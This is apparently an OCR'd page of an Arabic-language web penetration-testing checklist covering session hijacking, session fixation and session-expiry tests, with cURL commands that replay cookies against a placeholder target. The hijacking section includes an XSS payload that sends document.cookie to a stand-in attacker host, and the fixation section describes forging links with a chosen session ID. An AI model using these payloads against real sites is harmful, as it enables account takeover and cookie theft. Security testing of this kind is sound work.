 
## المحاولة الثالثة: سرقة الجلسة
**الوصف**: اختبار إذا كان الـ Session ID المسروق يسمح بالدخول من جهاز آخر.
- **الخطوات**:
  1. استخرج الـ Session ID.
  2. جرب الـ Session ID في متصفح/جهاز آخر.
  3. جرب هجمات مثل XSS أو MITM.
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
  - XSS PoC:
    ```javascript
    new Image().src = "https://attacker.com/steal?cookie=" + document.cookie;
    ```
- **الملخص**:
  - cURL: `curl -b "session=abc123" https://target.com/profile`

---

## المحاولة الرابعة: تثبيت الجلسة
**الوصف**: اختبار إذا كان الموقع يسمح بفرض Session ID على المستخدم.
- **الخطوات**:
  1. زور رابط بـ Session ID (مثل `https://target.com?session=attacker123`).
  2. تحقق إذا كان الموقع يستخدم نفس الـ Session ID بعد تسجيل الدخول.
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -b "session=attacker123" https://target.com/login
    ```
- **الملخص**:
  - cURL: `curl -b "session=attacker123" https://target.com/login`

---

## المحاولة الخامسة: صلاحية الجلسة
**الوصف**: اختبار إذا كان الموقع يبطل الجلسة بعد فترة عدم نشاط.
- **الخطوات**:
  1. سجل دخول واستخرج الـ Session ID.
  2. جرب الجلسة بعد فترات (10 دقايق، ساعة).
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
- **الملخص**:
  - cURL: `curl -b "session=abc123" https://target.com/profile`

---
